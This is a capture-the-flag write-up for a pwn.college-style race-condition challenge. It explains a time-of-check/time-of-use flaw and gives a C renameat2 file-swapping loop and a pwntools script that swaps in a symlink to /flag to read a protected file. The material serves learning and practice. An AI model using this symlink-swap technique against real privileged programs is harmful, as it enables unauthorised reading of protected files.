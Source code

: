 +++
title = 'NAHM NAHM NAHM (Race Condition)'
date = 2023-10-11T03:39:48-04:00
description = 'Race condition challenge i accidentally stumbled upon, took me about a few minutes to solve !'
tags = ["TOCTOU", "races", "exploitation"]
draft = false
+++
NAHM NAHM NAHM, this challenge was the first pwn challenge after finishing the race conditions module on **pwn.college**, which funnily enough turned out to be a race condition too !

## Taking a look at the Challenge
Executing the challenge, the programs asks us for a file and output it's content to the stdout.
```
❯ ./nahmnahmnahm
Enter file: shell
Press enter to continue:

Hello from File
```

Looking at the executable in Binary Ninja, we can clearly notice the vulnerability.

We are performing checks on the file before actually opening and using it. We can abuse this by swapping the file with another one, in-between the check and the use of the file.

This is very easily done using the **renameat2** syscall using the **RENAME_EXCHANGE** flag, this syscall will allow us to exchange the name of a file with the name of another one. Running this in a while loop and we can win the race and get the flag.
```c
#include <stdio.h>
#include <sys/syscall.h>
#include <unistd.h>
#include <fcntl.h>
#include <linux/fs.h>

int main(int argc, char **argv){
  while(1){
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

**HOWEVER**, since this challenge is super easy and there's even a time where the program stops until we press enter.

This gives us plenty of time to swap the file, let's write a python script to solve this challenge.

# Python Script to Win
I wrote the following python script to let us win the challenge every single time. Here we're introducing sleep just in case our script tries to swap the files too fast !
```python
import pwn
import os
import time

pwn.context.arch = "amd64"
exe = pwn.ELF("./nahmnahmnahm")

try:
    os.unlink("evil_file")
except:
    print("can't remove_file evil_file")
    if os.path.exists("evil_file"):
    ¦   print("However file seems to exists ?...")
    ¦   exit(1)
    pass

with open("evil_file", "w") as file:
    file.write("Nothing sus going on here...")
    file.close()

io = pwn.process("./nahmnahmnahm")
io.sendline(b"evil_file")

time.sleep(0.05)
os.unlink("evil_file")
os.symlink("/flag", "evil_file")

io.sendline(b"\n")
io.interactive()
```
